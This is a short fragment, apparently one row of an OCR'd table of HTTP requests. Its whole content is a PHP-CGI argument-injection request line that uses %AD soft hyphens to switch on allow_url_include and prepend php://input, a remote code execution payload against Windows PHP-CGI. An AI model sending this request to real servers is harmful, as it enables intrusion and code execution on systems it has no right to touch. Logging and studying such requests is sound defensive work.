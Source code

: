 | 181 |                     1 | POST /php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3D0+%ADd+disable_functions%3D%22%22+%ADd+allow_url_include%3D1+%ADd+auto_prepend_file%3Dphp://input HTTP/1.1                                                                                                                                                                                                                                                     |
